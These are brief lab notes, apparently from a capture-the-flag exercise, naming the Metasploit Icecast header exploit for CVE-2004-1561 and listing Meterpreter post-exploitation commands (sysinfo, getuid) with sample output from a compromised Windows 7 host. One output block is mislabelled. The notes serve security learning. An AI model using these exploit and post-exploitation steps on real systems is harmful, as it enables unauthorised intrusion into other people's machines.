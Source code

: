 # Commands
CVE-2004-1561 - exploit = exploit/windows/http/icecast_header
### Meterpeter shell

++sys info++ - System info 

Output

meterpreter > sysinfo*
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows*

++getuid++ - Shows server username and active users

Output
meterpreter > sysinfo
*Server username: Dark-PC\Dark*

